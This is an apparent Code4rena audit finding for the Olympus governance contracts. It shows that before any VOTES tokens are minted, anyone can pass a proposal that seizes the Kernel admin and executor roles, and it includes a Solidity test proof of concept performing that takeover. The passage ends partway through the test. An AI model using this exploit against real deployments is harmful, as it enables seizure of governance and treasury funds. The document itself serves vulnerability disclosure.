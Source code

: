 

***

## [[H-02] Anyone can pass any proposal alone before first `VOTES` are minted](https://github.com/code-423n4/2022-08-olympus-findings/issues/392)
_Submitted by Bahurum, also found by bin2chen and cryptphi_

<https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L164><br>
<https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L217-L218><br>
<https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L268>

Before any `VOTES` are minted anyone can activate and execute an arbitrary proposal even with 0 votes cast. So an attacker can pass any proposal (i.e. change the `executor` + `admin` of the `Kernel`, gaining access to all permissioned functions and to funds held).

### Proof of Concept

Checks on vote numbers made in `Governance.sol` at lines [L164](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L164), [217-218](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L217-218), [268](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/policies/Governance.sol#L268) pass if `VOTES.totalSupply() == 0`. So, until no `VOTES` are minted, anyone can submit, activate and execute a proposal. There is no need to own or cast votes. This happens if `OlympusGovernance` is granted the `executor` role before any `VOTES` are minted (as in [Governance.t.sol](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol)). The attacker can anticipate/frontrun the minting and pass a proposal to change both the `Kernel` `admin` and `executor`. Then he/she can upgrade malicious modules, steal funds from treasury...

A PoC was obtained modifying the `setUp()` of [Governance.t.sol](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol) by keeping only what is before the minting of `VOTES` (up to [L83](https://github.com/code-423n4/2022-08-olympus/blob/2a0b515012b4a40076f6eac487f7816aafb8724a/src/test/policies/Governance.t.sol#L83) included). The test is as follows:

```solidity
    function test_AttackerPassesProposalBeforeMinting() public {

        address[] memory users = userCreator.create(1);
        address attacker = users[0];
        vm.prank(attacker);
        MockMalicious attackerControlledContract = new MockMalicious();

        Instruction[] memory instructions_ = new Instruction[](2);
        instructions_[0] = Instruction(Actions.ChangeAdmin, address(attackerControlledContract));
        instructions_[1] = Instruction(Actions.ChangeExecutor, address(attackerControlledContract));

        vm.prank(attacker);
        governance.submitProposal(instructions_, "proposalName", "This is the proposal URI");
        
        governance.endorseProposal(1);
        
        vm.prank(attacker);
        governance.activateProposal(1);
        
        vm.warp(block.timestamp + 3 days + 1);
        
        governance.executeProposal();

        assert(kernel.executor()==address(attackerControlledContract));
```